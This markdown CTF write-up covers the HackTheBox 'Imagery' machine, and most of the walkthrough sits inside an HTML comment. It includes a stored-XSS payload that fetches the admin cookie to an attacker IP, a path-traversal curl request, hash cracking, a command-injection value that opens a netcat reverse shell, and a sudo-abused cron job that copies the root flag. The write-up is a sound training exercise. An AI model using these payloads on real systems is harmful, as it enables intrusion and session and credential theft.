 # Imagery

```
Difficulty: Medium
Operating System: Linux
Hints: True
```



#### 🏁 Summary of Attack Chain

| Step | User / Access       | Technique Used                             | Result                                                                                                                                           |
| :--- | :------------------ | :----------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)             | Nmap service/version scan                  | Discovered services: SSH (22) and HTTP (Werkzeug on 8000) — identified *Image Gallery* web app.                                                  |
| 2    | (Web)               | Stored XSS in bug report                   | Injected a payload in the bug report to exfiltrate the admin session cookie when the admin viewed the report.                                    |
| 3    | (Web / Admin)       | Path traversal (LFI) on admin log endpoint | Used the stolen admin cookie to read `db.json` via the admin log endpoint and retrieve user password hashes.                                     |
| 4    | (Local)             | Password cracking (offline)                | Cracked extracted hashes with a wordlist to recover valid web user credentials (e.g., `testuser`).                                               |
| 5    | (Web)               | Command injection in image transform       | As a normal user, tampered with the image transform input to execute a command and obtain a web user shell.                                      |
| 6    | (Web Shell)         | Filesystem discovery & download            | Enumerated `/var/backup`, found an encrypted backup archive, and downloaded it for offline brute-force/decryption.                               |
| 7    | (Local)             | Archive decryption & offline hash cracking | Decrypted the backup, extracted a historical `db.json`, and cracked the `mark` hash.                                                             |
| 8    | (Local / Shell)     | Credential reuse / local user switch       | Used the cracked `mark` password to switch to user `mark` (`su mark`) and capture the user flag.                                                 |
| 9    | (Post-exploitation) | Sudo configuration review                  | `mark` has `NOPASSWD` for `/usr/local/bin/charcol` — a clear privilege-escalation vector; inspect the binary for interactive/scheduler features. |
| 10   | (Outcome)           | —                                          | User flag captured; potential privilege escalation path identified for follow-up investigation and mitigation.                                   |

![Map](Pictures/htb_imagery_Mind_Map.png)

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

### Recon – Nmap

```
nmap -sVC 10.10.XX.XX

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
```

* **22/tcp** – SSH (OpenSSH 9.7p1)
* **8000/tcp** – HTTP (Werkzeug, Python 3.12.7)
  The web runs an *Image Gallery* application.



# Initial foothold — Stored XSS → admin cookie

The bug report page contains a **stored XSS** that can be used to exfiltrate the admin session cookie.

Start a simple HTTP server on your attacker host to capture callbacks:

```bash
python3 -m http.server 4444
```

Submit the following payload in a bug report (replace `<YOUR-IP>` with your host IP reachable by the target):

```html
<img src=x onerror=fetch('http://<YOUR-IP>:4444/?pwned='+document.cookie)>
```

When the admin opens the report, the admin session cookie will be sent to your listener.

![File ](Pictures/htb_imagery_admin_cookie.png)


![File ](Pictures/htb_imagery_admin_panel.png)

# LFI on the admin endpoint

With the stolen admin cookie you can call the admin log endpoint which reads files based on a `log_identifier` parameter (vulnerable to path traversal).

Set the cookie variable:

```bash
COOKIE="session=ADMIN_COOKIE"
```

Example request to read `db.json` from the web user's home:

```bash
curl -s -H "Cookie: $COOKIE" \
 "http://10.10.XX.XX:8000/admin/get_system_log?log_identifier=../../../../home/web/web/db.json" | jq .
```

![File ](Pictures/htb_imagery_dbjson.png)

This reveals users and password hashes stored in `db.json`.



# Hash cracking

Save the extracted hash locally (example):

```bash
echo '2c65c8d7bf<HASH>' >> hashes.txt
```


Crack with John the Ripper:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

![File ](Pictures/htb_imagery_test_pass_crack.png)

After cracking, use the recovered credentials on the web app to log in as that user.



# Webshell — Command Injection in image transform

As a normal user (e.g. `testuser`) upload an image. Intercept the image transform/crop request (Burp or similar) and modify the `height` parameter to inject a command.

![File ](Pictures/htb_imagery_test_login.png)

Example (modify `YOUR-IP` and port):

```json
"height":"100; busybox nc YOUR-IP 4444 -e /bin/sh; echo"
```
![File ](Pictures/htb_imagery_burp_payload.png)

Start a listener on your attacker host:

```bash
nc -lvnp 4444
```

![File ](Pictures/htb_imagery_www_shell.png)

Trigger the transform and you will obtain a web user shell.



# Pivot to `mark` — backup bruteforce

From the web shell, enumerate backup files:

```bash
ls -la /var/backup
```

Find an encrypted backup, for example:

```
web_20250806_120723.zip.aes
```
![File ](Pictures/htb_imagery_www_aes.png)
![File ](Pictures/htb_imagery_www_aes_download.png)

Download the archive to your attacker host and brute-force/decrypt it (custom script or tools such as `pyAesCrypt`/loop). Once decrypted, extract the old `db.json` which contains historical user hashes (including `mark`'s hash).

![File ](Pictures/htb_imagery_www_aes_decrypted.png)

Crack the `mark` hash offline:

```bash
echo '<mark_hash>' >> hashes.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

![File ](Pictures/htb_imagery_www_mark_hash.png)

![File ](Pictures/htb_imagery_www_mark_pass.png)

# User access — `su mark`

From the web shell or after obtaining valid credentials, switch user:

```bash
su mark
```

![File ](Pictures/htb_imagery_User_flag.png)

Capture the user flag.


## Privilege Escalation — `charcol` (sudo)

---

## Summary

`mark` can run `/usr/local/bin/charcol` as **root** without a password. `charcol` is a backup utility with an interactive shell and a scheduling feature (`--reset-password-to-default`, `auto add --schedule ...`). By using the shell and its scheduler we can add a recurring job (cron-style) to copy the root flag to a world-readable location.

---

## Enumeration

* Checked sudo privileges:

```bash
sudo -l
# shows: user mark may run /usr/local/bin/charcol as root NO PASSWORD
```

![File ](Pictures/htb_imagerysudol.png)


* Investigated `charcol` and discovered:

  * It supports an interactive shell: `charcol shell`
  * It supports adding automated scheduled tasks via an `auto add --schedule` command

---

## Exploitation

1. Launch the `charcol` interactive shell as root via sudo:

```bash
sudo /usr/local/bin/charcol shell
```

2. Inside the `charcol` shell add a scheduled job that runs every minute to copy the root flag and make it world-readable:

```text
auto add --schedule "* * * * *" --command "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt" --name "get_flag"
```

3. Wait briefly (the job runs every minute). Then read the copied flag:

```bash
cat /tmp/root.txt
```
![File ](Pictures/htb_imagery_Root_flag.png)

---

## Notes

* This write-up documents a single, simple path to root by abusing `charcol`'s scheduling feature when callable via `sudo`.
* **Remediation / Mitigation recommendations:**

  * Do **not** allow untrusted users to run privileged utilities without a password unless absolutely necessary.
  * Remove scheduling features or restrict them when exposing utilities to non-admin users.
  * Audit binaries allowed in `sudoers` for interactive functionality and dangerous features (shells, scheduling, arbitrary command execution).
  * Use least-privilege: if a helper utility is needed, wrap it in a safe, purpose-limited script or use `sudo` restrictions that limit allowed subcommands and arguments.

---
